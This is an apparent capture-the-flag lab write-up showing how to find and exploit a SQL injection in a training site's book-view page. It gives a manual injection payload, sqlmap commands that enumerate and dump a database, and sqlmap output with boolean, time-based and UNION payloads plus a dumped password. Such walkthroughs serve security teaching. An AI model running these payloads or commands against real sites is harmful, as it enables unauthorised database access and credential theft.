 # Challenge #1 - Poema Reading club 5

## Objectives

- You want to find SQL injection vulnerabilities in the website, determining the type of SQL injection and its exploitability You will also have to extract information from the database exploiting the vulnerability
- Find out Ruud password in the database

## Hints

- MySQL

## What you will learn

- How to find SQL injection vulnerabilities manually
- How to determine if a SQL injection is of type "blind" or "error based"
- How to extract information from a database using sqlmap

## Steps

The vulnerable endpoint is on the recommended books -> view book. The error message points to something wrong on this page.

Target url:
http://1.challenge.sqli.site/view_book.php?id=1

"Notice: Undefined index: title in /var/www/challenge.sqli.site/1/view_book.php on line 58"

Change the book number with the payload below.

9999 or 1=1-- -

http://1.challenge.sqli.site/view_book.php?id=9999%20or%201=1--%20-

There are no book with number 9999, as the secont part of the payload is 1=1, this will match all books, and so, the page show the first retrieved.

Send the original url to sqlmap.

sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql

After a few moments sqlmap will return with the follow results.

GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 51 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 3056=3056

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1358 FROM (SELECT(SLEEP(5)))kXNq)

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=-3956 UNION ALL SELECT CONCAT(0x716b7a7a71,0x536147644551706866424944757659684665686b6649426c6d4144727261734458675553774b694f,0x7176707671),NULL,NULL,NULL,NULL,NULL-- -
---

List all databases.

sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql --dbs

[*] information_schema
[*] poema

List all tables from poema database.

sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql -D poema --tables

Retrieve the table club_members and search for the Ruud password in the database

sqlmap -u http://1.challenge.sqli.site/view_book.php?id=1 --batch --dbms=mysql -D poema -T club_members --dump

Database: poema                                                                        
Table: club_members
[30 entries]
| id | zip   | city             | name     | password    | username                                   |
[...]
| 12 | 73544 | Cerritos         | Ruud     | W000Tw0000t | feugiat@nonsollicitudin.org                |
[...]
